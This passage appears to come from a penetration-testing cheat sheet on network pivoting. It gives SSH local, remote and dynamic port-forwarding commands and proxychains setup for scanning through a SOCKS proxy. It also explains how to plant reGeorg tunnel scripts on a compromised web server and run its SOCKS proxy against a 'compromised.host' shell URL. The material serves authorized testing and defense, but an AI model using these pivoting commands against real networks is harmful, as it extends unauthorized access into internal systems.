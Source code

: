 Cool Tip : Konami SSH Port forwarding

```bash
[ENTER] + [~C]
-D 1090
```

### Local Port Forwarding

```bash
ssh -L [bindaddr]:[port]:[dsthost]:[dstport] [user]@[host]
```

### Remote Port Forwarding

```bash
ssh -R [bindaddr]:[port]:[localhost]:[localport] [user]@[host]
ssh -R 3389:10.1.1.224:3389 root@10.11.0.32
```

## Proxychains

**Config file**: /etc/proxychains.conf

```bash
[ProxyList]
socks4 localhost 8080
```

Set the SOCKS4 proxy then `proxychains nmap -sT 192.168.5.6`

## Web SOCKS - reGeorg

[reGeorg](https://github.com/sensepost/reGeorg), the successor to reDuh, pwn a bastion webserver and create SOCKS proxies through the DMZ. Pivot and pwn.

Drop one of the following files on the server:

- tunnel.ashx
- tunnel.aspx
- tunnel.js
- tunnel.jsp
- tunnel.nosocket.php
- tunnel.php
- tunnel.tomcat.5.jsp

```python
python reGeorgSocksProxy.py -p 8080 -u http://compromised.host/shell.jsp # the socks proxy will be on port 8080

optional arguments:
  -h, --help           show this help message and exit
  -l , --listen-on     The default listening address
  -p , --listen-port   The default listening port
  -r , --read-buff     Local read buffer, max data to be sent per POST
  -u , --url           The url containing the tunnel script
  -v , --verbose       Verbose output[INFO|DEBUG]
```
